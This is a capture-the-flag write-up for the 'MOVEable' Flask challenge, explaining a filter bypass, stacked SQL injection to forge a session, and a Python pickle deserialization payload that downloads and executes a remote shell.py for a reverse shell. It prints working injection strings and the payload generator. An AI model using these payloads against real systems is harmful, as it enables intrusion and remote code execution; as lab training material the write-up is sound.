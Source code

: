 ```yaml
---
title: MOVEable
author: Sir_X_
pubDate: 2024-10-17
toc: true
share: true
ogImage: true
---
```



![](../../assets/dom-images/logo.jpg)

## Description
Author: @JohnHammond#6971

Ever wanted to move your files? You know, like with a fancy web based GUI instead of just FTP or something?

Well now you can, with our super secure app, MOVEable!

Escalate your privileges and find the flag.

## Solution
This challenge was quite fun to solve, with each step of exploitation becoming clear after a bit of searching. However, let's not rush things and rather examine how the challenge can be solved step by step.

We are provided with the app.py for a Flask application. This app displays a login page and utilizes an SQLlite database to store user information. Furthermore, there are tables for sessions and files that are stored within this web application.

The login function immediately reveals that the SQL statement for login seems susceptible to SQL injection. Below is the mentioned code segment:
```
username = DBClean(request.form['username'])
password = DBClean(request.form['password'])
conn = get_db()
c = conn.cursor()
sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
c.executescript(sql)
```
However, before being used in the SQL statement, our parameters are "cleaned" in the `DBClean` function.
```
def DBClean(string):
    for bad_char in " '\"":
        string = string.replace(bad_char,"")
    return string.replace("\\", "'")
```
The function removes the characters ` `, `'` and `"`. Yet, there is an additional replacement that substitutes `\` with `'`, implying that we can still use `'`, if we type `\` instead.

For bypassing the removal of the space character ` `, a simple bypass of `/**/` can be used. As a result, we can now execute almost any SQL command.
The remainder of the login function indicates that we need an existing user returned from the SQL statement for a successful login.
``` 
user = c.fetchone()
if user:
    c.execute(f"SELECT sessionid FROM activesessions WHERE username=?", (username,))
    active_session = c.fetchone()
    if active_session:
        session_id = active_session[0]
    else:
        c.execute(f"SELECT username FROM users WHERE username=?", (username,))
        user_name = c.fetchone()
        if user_name:
            session_id = str(uuid.uuid4())
            c.executescript(f"INSERT INTO activesessions (sessionid, timestamp) VALUES ('{session_id}', '{datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')}')")
        else:
            flash("A session could be not be created")
            return logout()
    
    session['username'] = username
    session['session_id'] = session_id
    conn.commit()
    return redirect(url_for('files'))
else:
    flash('Username or password is incorrect')
    return redirect(url_for('home'))
```
Given the ability to inject additional SQL commands, we can insert any user of our choosing into the users table. 
For example a user called `admin1` with the following statement:
```
admin1\;/**/INSERT/**/INTO/**/users/**/VALUES/**/(\admin1\,\admin1\)--
```
Even though our local setup confirms that this user is indeed created in the users table, we are still unable to log in. Debugging on the locally deployed web app of the MOVEable app.py reveals that the user variable remains persistently `None`. This is due to the app's utilization of `executescript()`, which returns nothing. Therefore we will never be able to login that way. 

Next, we need to explore alternative methods for authentication and exploitation of this web application. For this, we'll look at the remaining functions in the Python code.

There's a `download_file` function that allows us to download files. Interestingly, this route doesn't check our authentication credentials but fetches the session ID directly from the URL. It then verifies the existence of this session ID in the activesessions database table and proceeds to download the requested file. Below is the snippet of that function:
```
@app.route('/download/<filename>/<sessionid>', methods=['GET'])
def download_file(filename, sessionid):
    conn = get_db()
    c = conn.cursor()
    c.execute(f"SELECT * FROM activesessions WHERE sessionid=?", (sessionid,))
    active_session = c.fetchone()
    if active_session is None:
        flash('No active session found')
        return redirect(url_for('home'))
    c.execute(f"SELECT data FROM files WHERE filename=?",(filename,))
    file_data = c.fetchone()
# Continued...
```
Given that we can insert any statement into the database, it's possible to craft ourselves a valid session ID. All we need to do is modify the SQL injection slightly so that it writes a session instead of a user:
```
admin1\;/**/INSERT/**/INTO/**/activesessions/**/VALUES/**/(\8de16447-c339-41c4-be6f-eaf3db51a661\,\admin1\,\2024-10-17 22:14:53.757220\);--
```
This will allow us to read the files stored in the database, including flag.txt, which unfortunately contains a dummy text instead of a flag:
> lol just kidding this isn't really where the flag is

This mock flag was expected, as it's also inserted into the db within the app.py code. One might hope that the actual live instance would provide the real flag, but that isn't the case. 

Next, looking further into the same function's code, we notice that `pickle` is utilized to load file content from base64.
```
    file_data = c.fetchone()
    if file_data is None:
        flash('File not found')
        return redirect(url_for('files'))
    file_blob = pickle.loads(base64.b64decode(file_data[0]))
    try:    
        return send_file(io.BytesIO(file_blob), download_name=filename, as_attachment=True)
    except TypeError:
        flash("ERROR: Failed to retrieve file. Are you trying to hack us?!?")
        return redirect(url_for('files'))
```
Google reveals that pickle has some serious vulnerabilities that we might exploit to execute commands on the server.

In Python, the pickle module is used to serialize and deserialize data. In this case, deserialization can also lead to remote code execution. More details can be found [here (Python-Pickle-RCE-Exploit)](https://github.com/CalfCrusher/Python-Pickle-RCE-Exploit/tree/main) and [here (exploiting-python-pickle)](https://davidhamann.de/2020/04/05/exploiting-python-pickle/).

Let's try to insert our own file into the third and last table of our database, one we haven't inserted anything into so far.

To generate the file content, we can use the following pickle payload generation script:
```
import pickle
import base64
import requests
import sys

class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,('python3 -c "import urllib.request; exec(urllib.request.urlopen(\\"http://IP:PORT/shell.py\\").read())" IP PORT',))

payload = base64.b64encode(pickle.dumps(PickleRCE()))  # Crafting Payload
print(payload)
```
We then need to utilize the base64 output as file content in our insertion into the files table.
```
username=admin&password=admin\;INSERT/**/INTO/**/files/**/VALUES/**/(\pwned.txt\,\BASE64_HERE\,NULL)--%20-
```
The final step of the execution chain is to trigger the script. Of course, the `shell.py` needs to be downloadable by the hosted instance of the challenge, so the reverse shell can be downloaded from the Python script and executed. Moreover, the script then requires a way to connect back to your listener.

After the callback from the reverse shell, you were successfully able to access the root directory and read the flag. By using the command:
```
sudo cat /root/flag.txt
```

---
**Dombusters**: _Writeup written by Sir_X_
